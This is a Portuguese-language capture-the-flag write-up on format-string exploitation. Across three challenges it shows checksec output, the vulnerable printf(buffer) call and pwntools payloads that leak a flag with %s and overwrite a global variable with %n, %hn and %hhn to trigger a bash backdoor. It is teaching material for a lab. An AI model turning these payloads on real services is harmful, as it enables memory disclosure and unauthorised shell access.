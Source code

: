 # CTF Semana #5 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:

<img src="../screenshots/ctf7/d1_flag.PNG" alt="flag">

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag1.PNG" alt="flag">



## Desafio 2

### Recolha de informação

Mais uma vez, começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`) e o código fonte (`main.c`) 

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

Tal como no desafio anterior, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers, nomeadamente o `%n`, de modo a modificarmos o valor da variável global `key` para `0xbeef` e, consequentemente, lançar uma bash.

```c
if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
} 
```

### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a key:

<img src="../screenshots/ctf7/d2_key.PNG" alt="key">

`0xbeef` tem o valor de **48879** em decimal, pelo que antes de `%n` teremos que escrever 48879 bytes. Sendo que o endereço da variável ocupa 4 bytes, ainda precisamos de 48875 bytes. 

Como o `buffer` apenas tem 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, sendo que precisamos de 4 (espaço de 1 endereço) + 48871 bytes:

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que alterasse o valor da `key` na memória:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag2.PNG" alt="flag">



## Desafio extra

### Recolha de informação e Reconhecimento da vulnerabilidade

Este desafio é muito semelhante ao desafio anterior, sendo que, desta vez, o endereço da variável `key` é `0x804b320`.

<img src="../screenshots/ctf7/d3_key.PNG" alt="key">

### Exploração da vulnerabilidade

#### Tentativa 1

Primeiramente, tentamos modificar o valor da variável global `key` usando o `%n`, tal como fizemos no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

No entanto, não foi possível obter o output esperado, pelo que `\x20` corresponde a um espaço em código ASCII, o que não permite a leitura total da string injetada.

#### Tentativa 2

Assim sendo, tentamos escrever para o endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:

<img src="../screenshots/ctf7/try2_1.PNG" alt="try">


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Desta vez, a shell era de facto lançada, seguida imediatamente de um timeout, o que é justificado pelo elevado número de caracteres (mais de 12 milhões) escritos:

<img src="../screenshots/ctf7/try2.png" alt="try">

#### Tentativa 3

De modo a minimizar o número de caracteres escritos, optamos por usar os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

Ao executar o script, não foi possível lançar o terminal, na medida em que a string injetada ultrapassa os 32 bytes, espaço alocado ao `buffer`.

#### Tentativa 4

Por fim, usamos os format specifiers `%1$hhn` e `%2$hn` para poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

Ao executar o script, conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">



